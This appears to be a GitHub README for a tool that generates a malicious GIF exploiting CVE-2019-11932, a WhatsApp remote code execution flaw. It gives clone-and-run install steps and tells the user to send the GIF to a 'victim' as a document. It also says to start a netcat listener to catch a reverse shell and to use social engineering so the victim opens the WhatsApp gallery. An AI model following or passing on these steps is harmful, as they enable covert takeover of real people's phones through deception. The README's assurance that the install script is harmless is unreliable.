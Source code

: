 # whatsappcrash
this is a tool for whatsapp crash and  mmay more thing 
WhatsRCE
This is a Automated Generate Payload for CVE-2019-11932 (WhatsApp Remote Code Execution)

Auto install GCC (no harm command, you can see this is open-source)
Saving to .GIF file
How To Use ?
sudo apt install git
git clone https://github.com/CodewithsagarG/whatsappcrash
cd WhatsRCE && bash start.sh
How Get Shell ?
You just send the .GIF file to victim user AS A DOCUMENT NOT IMAGES
And set the nc / netcat to port you set on the WhatsRCE tools {nc -lnvp your_port}
You can use the Social Engineering attack so that victims can be attracted to launch this exploit
tell the victim to open the gallery via whatsapp and send the victim to send any photos (no need, it's just got to the gallery no problem) after that a few seconds later you will receive a shell connection from the victim
############# Mine contribution is Zero, But i enjoyed their works #######################
